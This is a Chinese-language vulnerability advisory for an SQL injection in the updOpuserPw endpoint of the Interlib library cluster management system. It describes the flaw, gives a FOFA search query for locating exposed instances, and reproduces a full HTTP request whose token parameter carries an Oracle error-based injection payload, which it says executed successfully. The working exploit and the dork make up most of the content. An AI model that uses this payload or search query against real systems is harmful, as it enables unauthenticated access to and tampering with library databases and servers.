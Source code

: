 # 图书馆集群管理系统interlib updOpuserPw SQL注入漏洞



## 1.漏洞描述



Interlib图书馆集群管理系统是全新的第三代图书馆系统，它作为资源共建共享的新的实现形式，打破了各图书馆单位所有，条块分割的局面，将城市图书馆群或高校多个校区的图书馆作为一个整体进行管理，从而能达到资源共建共享、合理配置和图书馆之间互相合作的目的。其updOpuserPw接口存在SQl注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息，例如添加、删除或修改记录，进而控制服务器系统。

## 2.搜索语法



```plain
fofa：body="interlib"
```

​    

## 3.漏洞复现



```plain
GET /interlib3/service/sysop/updOpuserPw?loginid=test&newpassword=12356&token=1%27and+ctxsys.drithsx.sn(1,(select%20MOD(9,9)%20from%20dual))=%272 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

​    

SQL报错成功执行取模运算函数

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727267640493-f0c7a300-30cb-46d4-816d-dc9612dc84bb.png)

